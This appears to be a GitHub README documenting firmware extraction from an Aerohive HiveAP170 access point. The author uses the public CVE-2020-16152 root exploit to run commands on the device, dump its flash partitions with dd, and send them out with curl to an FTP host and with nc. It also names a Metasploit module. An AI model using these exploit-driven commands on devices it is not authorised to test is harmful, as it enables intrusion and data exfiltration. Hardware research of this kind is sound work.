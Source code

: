 # HiveAP170
Investigating the AP170 from Aerohive

|Mainboard|UART|
|:-:|:-:|
|![Mainboard](https://github.com/richard718/HiveAP170/assets/86638482/da3ce224-a6a7-4c31-b824-fc965f420ab2)|![UART](https://github.com/richard718/HiveAP170/assets/86638482/0c062f73-9b0c-4715-9315-7670588971c1)|

# What Firmware extraction options are there :-

+ ~~JTAG~~ not identified.
+ ~~Extract via UART as ascii text~~[^1].
+ ~~tftpput from U-BOOT~~ unsupported in this firmware.
+ ~~Metasploit~~[^2].
+ CVE.

The original exploit code is published at [CVE-2020-16152](https://github.com/eriknl/CVE-2020-16152) and enables root access.

## Extracting the Firmware

download CVE-2020-16152.py

Inital attempts to use the exploit were unsuccessful, changed https to http in CVE-2020-16152.py.

get the list of block devices.

```bash
./CVE-2020-16152.py AP170.internal 'cat /proc/mtd' > mtd.txt 
```

|dev:|size|erasesize|name|
|-|-|-|-|
|mtd0:|02a00000|00040000|"App Image"|
|mtd1:|00f00000|00040000|"JFFS2"|
|mtd2:|00500000|00040000|"Kernel Image"|
|mtd3:|00080000|00040000|"Reserved"|
|mtd4:|00040000|00040000|"Static Boot Info Backup"|
|mtd5:|00040000|00040000|"Static Boot Info"|
|mtd6:|00040000|00040000|"Hardware Info"|
|mtd7:|00040000|00040000|"Uboot Env"|
|mtd8:|00080000|00040000|"Uboot"|

extract and transfer each image.

```bash
./CVE-2020-16152.py AP170.internal 'dd if=/dev/mtdx of=/f/mtdx.bin' 
./CVE-2020-16152.py AP170.internal 'curl -T /f/mtdx.bin ftp://ftphost.internal/mtdx.bin'
./CVE-2020-16152.py AP170.internal 'rm /f/mtdx.bin'
```
writing mtd0 and mtd1 to `/f` resulted in corruption

```bash
# worked for mtd1
./CVE-2020-16152.py AP170.internal 'dd if=/dev/mtd1 of=/tmp/mtd1.bin' 
./CVE-2020-16152.py AP170.internal 'curl -T /tmp/mtd1.bin ftp://ftphost.internal/mtd1.bin'
./CVE-2020-16152.py AP170.internal 'rm /tmp/mtd1.bin'
```

mtd0 is too big for `/tmp`

```bash
# Sender
./CVE-2020-16152.py AP170.internal 'nc ftphost.internal 1234 < /dev/mtd0'
# Receiver 
nc -l 1234 > mtd0.bin
```

# What other useful detail can be pulled out ...

[UBoot Commands](extracted_details/uboot.log)\
[Busybox Commands](extracted_details/busybox.log)\
[Root FS listing](extracted_details/root_fs.log)



[^1]: Although dumping as ascii hex and converting back to binary is possible it is time consuming and prone to error.\
[^2]: search aerohive; info exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce